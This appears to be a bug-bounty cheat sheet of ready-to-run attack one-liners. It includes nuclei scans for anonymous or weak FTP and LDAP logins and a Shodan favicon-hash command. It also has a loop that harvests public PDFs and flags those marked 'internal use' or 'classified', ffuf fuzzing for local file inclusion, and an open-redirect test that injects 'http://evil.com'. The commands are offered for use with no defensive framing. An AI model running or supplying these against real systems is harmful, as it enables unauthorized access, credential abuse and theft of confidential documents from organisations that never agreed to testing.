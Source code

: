 Nuclei for weak FTP:
cat port-scanned-hosts.txt | grep -E ':21$' | awk -F: '{print $1}' | nuclei -nh -id ftp-anonymous-login,ftp-weak-credentials

Nuclei for weak/anonymous LDAP
cat port-scanned-hosts.txt | grep -E ':389$' | awk -F: '{print $1}' | nuclei -nh -id ldap-anonymous-login

**Shodan favicon hash**:
One-liner of favicon hash for shodan: python3 -c "import mmh3,requests,codecs;print(mmh3.hash(codecs.encode(requests.get('[URL]',verify=False).content,'base64')))" Replace URL with [http://target.com/favicon.ico](https://t.co/j1P2Dv0XlG) and use http.favicon.hash:<HASH>


Reading sensitive pdf files:
(httpx, gau and pdftotext have to be installed)
for i in `cat apex-domains.txt | gau --subs --threads 16 | grep -Ea '\.pdf' | httpx -silent -mc 200`; do if curl -s "$i" | pdftotext -q - - | grep -Eaiq 'internal use|classified'; then echo [$i](https://twitter.com/search?q=%24i&src=cashtag_click); fi; done

For LFI:
paramspider -d target.com -o urls.txt | \
  while read -r URL; do
    ffuf -u "${URL}" -c -w /root/FUZZDB/Seclists/Fuzzing/LFI/LFI-JHaddix.txt -ac
  done

For Open redirect:
gau target.com | grep -a -i '=https' | \
  qsreplace 'http://evil.com' | \
  while read -r host; do
    if curl -s -L "$host" -I | grep -q "evil.com"; then
      echo -e "$host \033[0;31mVulnerable\n"
    fi
  done
